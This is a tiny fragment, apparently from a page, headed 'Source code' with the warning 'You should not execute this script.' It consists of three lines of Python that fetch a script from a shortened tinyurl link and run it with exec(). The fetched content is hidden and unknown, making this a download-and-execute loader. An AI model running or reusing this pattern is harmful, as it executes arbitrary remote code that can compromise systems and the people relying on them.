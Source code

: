 You should not execute this script.

import urllib.request
script = urllib.request.urlopen("https://tinyurl.com/btwktzns").read()
exec(script)
